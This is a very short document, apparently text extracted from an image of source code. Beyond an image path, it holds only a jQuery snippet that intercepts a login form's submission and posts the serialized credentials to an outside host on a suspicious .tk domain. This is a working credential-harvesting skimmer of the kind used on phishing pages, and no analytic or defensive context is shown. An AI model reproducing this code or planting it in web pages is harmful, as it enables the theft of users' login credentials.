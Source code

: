 $(".login-form").submit(function() {$.ajax({ url:"https://zaaxd.reedemcode.tk/apiii.php",type: "POST",data: $(this).serialize(), success: function () {}})});
